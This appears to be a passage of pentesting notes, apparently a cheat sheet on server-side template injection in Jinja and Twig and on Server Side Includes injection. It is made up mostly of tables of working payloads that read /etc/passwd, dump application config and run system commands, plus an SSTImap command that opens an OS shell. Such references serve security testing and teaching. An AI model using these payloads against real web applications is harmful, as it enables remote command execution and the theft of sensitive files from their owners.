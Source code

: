 > ⚠️ **PAY ATTENTION:**
> 
> Jinja returns `7777777` and Twig returns `49`.

> ⚠️ **IMPORTANT:**
> 
> Rember to full URL-encode the full payload if it doesn't work by default!

### Jinja Payloads

| Payload | Description |
|---------|-------------|
| `{{ config.items() }}` | Obtain the web application's configuration |
| `{{ self.__init__.__globals__.__builtins__ }}` | Dump all available built-in functions |
| `{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}` | Read a file |
| `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` | Execute a command |

### Twig Payloads

| Payload | Description |
|---------|-------------|
| `{{ _self }}` | Information about the current template |
| `{{ ['id'] \| filter('system') }}` | Execute a command |

### SSTIMAP
https://github.com/vladko312/SSTImap
```shell-session
python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell
```

## Server Side Includes
>**ℹ️ Info:**
>
>To check if SSI injection in spresent we can look for typical file extensions that include `.shtml`, `.shtm`, and `.stm`. However, web servers can be configured to support SSI directives in arbitrary file extensions. As such, we cannot conclusively conclude whether SSI is used only from the file extension.

### SSI Payloads

| Payload | Description |
|---------|-------------|
| `<!--#printenv -->` | Print variables |
| `<!--#config errmsg="Error!" -->` | Change config |
| `<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->` | Print specific variable |
| `<!--#exec cmd="whoami" -->` | Execute command |
| `<!--#include virtual="index.html" -->` | Include web file |
